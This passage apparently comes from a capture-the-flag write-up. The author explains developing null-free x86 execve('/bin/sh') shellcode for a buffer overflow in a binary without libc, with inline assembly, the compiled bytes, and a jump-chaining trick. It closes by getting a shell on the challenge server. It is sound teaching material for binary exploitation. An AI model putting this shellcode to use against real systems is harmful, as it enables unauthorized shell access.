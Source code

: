 ### Shellcode Development

I made one more blunder that is worth mentioning: my first thought for exploiting the overflow vulnerability was to note that the return address of whatever "function" the shell code would be is stored at 0xffffce70. That means that if I have my shell code call `system()`, then the argument for system would be stored on the stack eight bytes above 0xffffce70. Thus, I can have my shell code simply move a pointer to "/bin/sh" to 0xffffce74 and jump to the address of `system()`. That would be very straightforward.

The only problem is that there is no `libc` AT ALL in this executable!! I simply made a false assumption because `libc` so far has always been part of every binary exploitation problem on which I have worked. Now I've learned my lesson: early in a problem, check what parts of the process are writable, executable, etc. And check if there's a `libc` section, as occasionally there is not.

But that just means that I have to call `execve()` directly instead of `system()`, no big deal. Chapter 5 of Hacking: the Art of Exploitation in fact shows how to develop exactly this type of shellcode. Essentially the registers must be set up as follows: `%ebx` must contain a pointer to the null-terminated string "/bin/sh". `%ecx` must contain a pointer to an array containing a pointer to the address of the "/bin/sh" string as its first entry, and a null pointer as its second entry. `%edx` can be simply a null pointer. And `%ecx` must contain `0xb`. Furthermore the shell code must contain no null values. Here is the full shell code during debugging:

    void main(){
    	__asm__("mov $0xffffcdca, %ebx;" // arg1 = pointer to /bin/sh
    		    "mov $0xffffcde2, %ecx;" // arg2 = pointer to null-terminated pointer to /bin/sh
    			"mov $0xffffcdd1, %edx;" // arg3 = 0
    			"xor %eax, %eax;"        // zero-out %eax
    			"mov $0xb, %al;"           // arg0 = 11 for system call
    			"int $0x80");
    }

Compiling this gives the following bytes:

    80483de:	bb ca cd ff ff       	mov    $0xffffcdca,%ebx
    80483e3:	b9 e2 cd ff ff       	mov    $0xffffcde2,%ecx
    80483e8:	ba d1 cd ff ff       	mov    $0xffffcdd1,%edx
    80483ed:	31 c0                	xor    %eax,%eax
    80483ef:	b0 0b                	mov    $0xb,%al
    80483f1:	cd 80                	int    $0x80



Of course, I only have 11 bytes to work with at a time, but I can split the shellcode up into four sections separated by relative jumps. So I use the op code `eb` (see [here](https://stackoverflow.com/questions/14889643/how-encode-a-relative-short-jmp-in-x86) to execute short jumps backwards. (I choose to go backwards because forward jumps would place null bytes into the machine code.)

With that, I can get an exploit working locally!

### Attacking the server

The offsets are slightly different on the server, because the environment is different. But that beautiful "Wizard Sight" gives me the actual location of the "enemy" data on the server's stack, and so I can adjust these offsets to work on the server. And thus, I can get shell!
